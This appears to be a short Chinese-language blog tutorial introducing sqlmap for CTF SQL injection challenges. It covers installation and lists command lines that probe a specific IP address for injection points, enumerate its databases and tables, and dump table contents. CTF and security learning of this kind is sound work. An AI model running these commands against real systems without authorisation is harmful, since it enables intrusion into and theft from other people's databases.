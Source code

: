```yaml
---
title: Sqlmap 介绍
date: 2023-01-25 20:40:25
tags:
keywords: sqlmap, ctf tools, ctf 工具
description:
---
```


Sqlmap 是检测服务端是否存在SQL注入漏洞的自动化工具。因为其强大的检测能力，常用在CTF比赛的SQL注入类型的题目中。它的主要功能是扫描、发现并利用指定URL中的SQL注入漏洞，支持的数据库类型非常多。

## 安装

在 macOS 中，可以通过 `brew install sqlmap` 安装并通过命令行使用。

> 想知道 brew 怎么使用，可以参考 [Homebrew 介绍与上手指南](http://www.edulinks.cn/2020/06/23/20200623-homebrew-introduction/)

## 使用

sqlmap 常用命令及参数如下：

```sh
# 检测指定 URL 的注入点情况
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1
# 检测指定 URL 的注入点情况，并指定更多的参数，提高成功率
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --level 2 --time-sec=10
# 指定注入点，查看当前数据库
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 --current-db
# 指定注入点，指定数据库名，查看数据库中所有表
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber --tables
# 指定注入点，指定数据库名和表名，查看表中具体内容
$ sqlmap -u http://223.112.5.156:59050/index.php\?id\=1 -D cyber -T cyber --dump

# 利用 POST 参数进行探测, search 为参数
$ sqlmap -u http://223.112.5.156:53583/ --data=search=1  --current-db
```

## 参考资料

1. [sqlmap](https://sqlmap.org/)
1. [sqlmap简介及简单应用实例](https://blog.csdn.net/m0_64378913/article/details/124439539)
